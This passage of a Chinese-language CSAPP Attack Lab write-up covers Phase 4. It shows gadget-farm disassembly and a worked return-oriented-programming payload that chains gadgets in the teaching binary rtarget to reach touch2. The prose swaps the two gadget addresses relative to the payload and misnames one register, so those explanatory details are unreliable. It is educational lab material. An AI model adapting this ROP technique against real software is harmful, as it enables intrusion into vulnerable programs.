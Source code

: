 ```assembly
0000000000401a91 <getval_169>:
  401a91:	b8 88 ce 20 c0       	mov    $0xc020ce88,%eax
  401a96:	c3                   	retq   

0000000000401a97 <setval_181>:
  401a97:	c7 07 48 89 e0 c2    	movl   $0xc2e08948,(%rdi)
  401a9d:	c3                   	retq   

0000000000401a9e <addval_184>:
  401a9e:	8d 87 89 c2 60 d2    	lea    -0x2d9f3d77(%rdi),%eax
  401aa4:	c3                   	retq   

0000000000401aa5 <getval_472>:
  401aa5:	b8 8d ce 20 d2       	mov    $0xd220ce8d,%eax
  401aaa:	c3                   	retq   

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq   

0000000000401ab2 <end_farm>:
  401ab2:	b8 01 00 00 00       	mov    $0x1,%eax
  401ab7:	c3                   	retq   
  401ab8:	90                   	nop
  401ab9:	90                   	nop
  401aba:	90                   	nop
  401abb:	90                   	nop
  401abc:	90                   	nop
  401abd:	90                   	nop
  401abe:	90                   	nop
  401abf:	90                   	nop
```

x86指令的编码在hint的appendix中给出：

![1.11](D:\CSAPP\write-ups\attacklab\1.11.png)

### Phase 4

文档描述如下：

For Phase 4, you will repeat the attack of Phase 2, but do so on program RTARGET using gadgets from your gadget farm. You can construct your solution using gadgets consisting of the following instruction types, and using only the first eight x86-64 registers (%rax–%rdi).

也就是说，我们要使用farm.c给定的函数在一个开启NX的rtarget函数中重新栈溢出到touch2函数

那么也就是要找一个pop指令把栈顶的cookie弹到一个寄存器中，然后再用一个mov指令放入rax寄存器，通过上面两张表对照我们可以看到pop rax和mov rax,rdx字段均存在,分别在add_val273和add_val219中，于是截取其开始的地址0x4019a2和0x4019ab即可(别忘了在两者之间放入cookie，)

exploit code如下：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
AB 19 40 00 00 00 00 00
FA 97 B9 59 00 00 00 00
A2 19 40 00 00 00 00 00
EC 17 40 00 00 00 00 00
```
